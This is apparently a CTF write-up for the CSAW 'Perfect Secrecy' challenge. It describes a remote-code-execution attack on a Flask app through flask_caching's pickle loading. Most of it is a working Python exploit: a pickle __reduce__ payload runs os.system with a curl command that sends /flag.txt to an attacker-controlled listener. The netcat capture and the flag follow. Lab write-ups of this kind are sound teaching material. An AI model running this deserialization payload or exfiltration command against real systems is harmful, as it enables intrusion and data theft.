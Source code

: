 # Perfect Secrecy

Author: [roerohan](https://github.com/roerohan) and [thebongy](https://github.com/thebongy)

# Requirements

- Python

# Source

- [app.py](./app.py)

```
cache all the things (this is python3)

http://web.chal.csaw.io:5000
```

# Exploitation

```py
# app.py

from flask_caching import Cache
```

When you look at the documentation for the source for the `flask_caching` module, you can optionally store a python pickle in the redis by prepending it with `'!'`. You can use python pickles for RCE, when the caching modules uses `pickle.load()` to load the cached data.

Set up a netcat listener on your server and run the following script with your IP and PORT.

```py
import pickle
import sys
import base64
import requests
import time

IP = '0.0.0.0' # Your IP here
PORT = 8000
DEFAULT_COMMAND=f'curl -d "$(cat /flag.txt)" {IP}:{PORT}'
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

f = open('payload', 'wb')
f.write(b'!'+pickle.dumps(PickleRce()))
f.close()

time.sleep(0.5)

data = open('payload', 'rb').read()
print(data)
url = 'http://web.chal.csaw.io:5000/'

test = 'test23'

requests.post(url, files={ 'content': ('content', open('payload', 'rb').read()) }, data={ 'title': f'flask_cache_view//{test}' })

r = requests.get(url + test)
print(r.text)
```

On your netcat listener, you would get:

```
POST / HTTP/1.1
Host: yourhost:yourport
User-Agent: curl/7.69.1
Accept: */*
Content-Length: 16
Content-Type: application/x-www-form-urlencoded

flag{f1@sK_10rD}
```

The flag is:

```
flag{f1@sK_10rD}
```